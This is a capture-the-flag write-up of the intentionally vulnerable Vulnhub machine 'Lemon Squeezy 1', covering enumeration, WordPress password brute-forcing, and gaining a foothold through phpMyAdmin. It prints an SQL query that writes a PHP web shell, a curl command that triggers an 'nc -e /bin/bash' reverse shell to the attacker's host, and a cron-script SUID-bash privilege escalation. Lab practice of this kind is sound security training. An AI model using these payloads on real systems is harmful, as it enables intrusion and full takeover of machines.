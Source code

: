 +++
title = "Vulnhub: Lemon Squeezy 1"
date = "2021-04-13"
author = ""
authorTwitter = "" #do not include @
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Directory Bruteforce", "ffuf", "WordPress", "WPScan", "PHPMyAdmin", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/lemonsqueezy1/lemon.png"
images = ["/img/lemonsqueezy1/lemon.png"]
+++



| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 26 Apr 2020 | James Hay | 

# Summary

For this box we only get one port running a web server and we discover wordpress and phpmyadmin by directory bruteforcing. 
On the wordpress application we bruteforce credentials of the users discovered and then discover more credentials stored
in a draft post. With this new credentials we access phpmyadmin and write to a file using an sql query. This serves
as our initial foothold and we then escalate privileges by abusing a cron job running as root that executes a world writeable 
script.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.134
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:FF:26:DE (VMware)
```
# Enumeration

## 80 (HTTP)

Visiting this page on the browser only serves the apache default page, confirming what nmap found in title.

After performing a directory bruteforce using ffuf we get the following directories:

```sh
ffuf -ic -c -u 'http://192.168.191.134/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50
```

{{< image src="/img/lemonsqueezy1/lemon-1.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking the /wordpress directory, we see a basic wordpress site with not much information.

{{< image src="/img/lemonsqueezy1/lemon-2.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing enumeration using wpscan, the only interesting information gathered is the usernames.

```sh
wpscan --url http://lemonsqueezy/wordpress -e ap,at,tt,cb,dbe,u -o wpscan.out --api-token
```

{{< image src="/img/lemonsqueezy1/lemon-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Bruteforcing the credentials for each user, we discover the password of the orange user.

```sh
wpscan --url http://lemonsqueezy/wordpress -U orange -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
```

{{< image src="/img/lemonsqueezy1/lemon-4.png" alt="" position="center" style="border-radius: 8px;" >}}

After logging into wordpress with the discovered credentials **orange:ginger**, we find another password in drafts.

{{< image src="/img/lemonsqueezy1/lemon-5.png" alt="" position="center" style="border-radius: 8px;" >}}

With this password, we are able to login to phpmyadmin as the orange user.

{{< image src="/img/lemonsqueezy1/lemon-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Successful login:

{{< image src="/img/lemonsqueezy1/lemon-7.png" alt="" position="center" style="border-radius: 8px;" >}}

By logging in we can abuse this access by writing a file to disk that contains php by using an sql statement.

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php" 
```

{{< image src="/img/lemonsqueezy1/lemon-8.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then verify that we have successful command execution, by running the whoami command.

{{< image src="/img/lemonsqueezy1/lemon-9.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as www-data

Running the below curl command we are able to get a reverse shell:

```sh
curl "http://192.168.191.134/wordpress/shell.php?cmd=nc+-e+/bin/bash+192.168.191.1+9000+%26"
```

{{< image src="/img/lemonsqueezy1/lemon-10.png" alt="" position="center" style="border-radius: 8px;" >}}

After performing some manual local enumeration, we discover a cron job running as root. 

{{< image src="/img/lemonsqueezy1/lemon-11.png" alt="" position="center" style="border-radius: 8px;" >}}

The script being executed in the cron job is world writeable and the www-data user can write to it.

{{< image src="/img/lemonsqueezy1/lemon-12.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

After changing the script to the below command we can create a bash binary with suid permissions.

```sh
#!/bin/bash
cp /bin/bash /suidbash
chmod u+s /suidbash
```

{{< image src="/img/lemonsqueezy1/lemon-13.png" alt="" position="center" style="border-radius: 8px;" >}}

Once the cron is executed we get the binary and can escalate to root shell and read root.txt.

```sh
./suidbash -p
```

{{< image src="/img/lemonsqueezy1/lemon-14.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

 - It seems I forgot user.txt and it is in /var/www.

{{< image src="/img/lemonsqueezy1/lemon-15.png" alt="" position="center" style="border-radius: 8px;" >}}

- We could write to the wordpress folder from phpmyadmin because it was world-writeable.

{{< image src="/img/lemonsqueezy1/lemon-16.png" alt="" position="center" style="border-radius: 8px;" >}}

